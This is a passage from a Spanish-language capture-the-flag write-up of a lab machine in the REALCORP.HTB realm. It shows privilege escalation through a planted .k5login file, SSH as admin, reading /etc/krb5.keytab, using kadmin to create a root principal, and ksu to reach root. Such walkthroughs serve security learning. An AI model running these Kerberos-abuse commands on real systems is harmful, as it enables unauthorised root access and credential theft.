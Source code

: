 
```bash
cd /var/log/squid/
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Esperamos un poco y lanzamos desde nuestra maquina de atacante una conneccion ssh

```bash
ssh admin@10.10.10.224
```

Ahora que estamos conectados como admin miramos como nos podemos pasar a root


```bash
cd /
find / -type f -user admin 2>/dev/null
find / -type f -user admin 2>/dev/null | grep -v "proc"
find / -type f -user admin 2>/dev/null | grep -v -E "proc|cgroup"
find / -type f -group admin 2>/dev/null | grep -v -E "proc|cgroup"
```

Encontramos un fichero `/etc/krb5.keytab`

```bash
cat /etc/krb5.keytab
file /etc/krb5.keytab
```

Si buscamos lo que es por internet vemos que hay una via potencial de rootear esta maquina usando este fichero. La idea aqui seria
de crear un nuevo principal al usuario root cambiandole la contraseña.

```bash
klist -k /etc/krb5.keytab
kadmin -h
kadmin -kt /etc/krb5.keytab
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
?
addprinc root@REALCORP.HTB
password: test123
reenter password: test123
exit
```

Si ahora lanzamos 

```bash
ksu
Kerberos password for root@REALCORP.HTB: test123
whoami

#Output
root
```

Ya somos root y podemos leer la flag
